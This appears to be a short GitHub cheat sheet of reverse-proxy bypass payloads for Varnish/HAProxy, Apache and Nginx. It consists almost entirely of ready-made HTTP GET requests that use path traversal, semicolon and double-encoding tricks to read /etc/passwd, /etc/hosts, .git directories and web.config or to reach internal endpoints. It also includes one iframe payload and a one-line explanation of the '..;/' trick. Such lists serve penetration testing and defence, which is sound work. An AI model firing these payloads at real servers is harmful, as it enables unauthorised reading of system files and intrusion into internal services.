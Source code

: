 # proxiesVulns bypass

Varnish or HaProxy

1. GET http://company.com/Endpoints-To-Proxy/.git HTTP/1.1
2. GeT /Endpoint-To-Proxy/../../../../../../etc/passwd HTTP/1.1
3. GET /Endpoint-To-Proxy/..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1

Apache

1. GET /Endpoint-To-Proxy/.git%3FAllowed HTTP/1.1
2. GET /Endpoint-To-Proxy/../../../../../../../etc/passwd HTTP/1.1
3. GET /Endpoint-To-Proxy/../../../../../../etc//./passwd HTTP/1.1
4. GET /Endpoint-To-Proxy/..//../../../../../../etc/passwd HTTP/1.1
5. GET /Endpoint-To-Proxy/..\..\..\..\..\..\..\..\..\..\..\..\..\..\etc\passwd HTTP/1.1
6. GET /Endpoint-To-Proxy\..\.\..\.\..\.\..\.\Internal-Endpoint%3F.js HTTP/1.1
7. GET /Endpoint-To-Proxy\..\.\..\.\..\.\..\.\Internal-Endpoint HTTP/1.1
8. GET /Endpoint-To-Proxy/file:%2f%2f/Internal-Endpoint/%252e%252e/%252e%252e/%252e%252e/etc/passwd HTTP/1.1
9. GET /Endpoint-To-Proxy/%255c%255c%255c%255c%255c%255c..%255c..%255c..%255c..%255c..%255c..%255c/Internal-Endpoint HTTP/1.1
10. GET /Endpoint-To-Proxy/dana-na/../dana/html5acc/guacamole/../../../../../../etc/hosts?/dana/html5acc/guacamole/# HTTP/1.1
11. GET /Endpoint-To-Proxy//..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fwindows/System32/drivers/etc/hosts HTTP/1.1


Nginx

1. GET /..;/..;/..;/..;/web.config HTTP/1.1
2. GET /Endpoint-To-Proxy/..;/../../../../../../etc/passwd HTTP/1.1
3. GET /Endpoint-To-Proxy/../../../../../../../etc/passwd//../ HTTP/1.1
4. GET /Endpoint-To-Proxy/#/../../../../../../../../../../etc/passwd HTTP/1.1
5. GET /Endpoint-To-Proxy../../../../../../../etc/passwd HTTP/1.1
6. GET /../../../../etc/passwd/..;/Endpoint-To-Proxy HTTP/1.1
7. GET /../../../../../../../etc/passwd;/../Endpoint-To-Proxy HTTP/1.1
8. GET /Endpoint-To-Proxy;/../../../../etc/passwd HTTP/1.1
9. GET /Endpoint-To-Proxy/../../../../etc/passwd%2f%2f%2f HTTP/1.1

10. <iframe src="https://www.company.com/Endpoint-To-Proxy/..;/Endpoint-To-Iframe">

By including "..;/", it may be possible to trick the server into thinking that the request is for a different endpoint than the one that is actually being requested

Nginx vs HAProxy (https://klink0v.livejournal.com/692218.html)
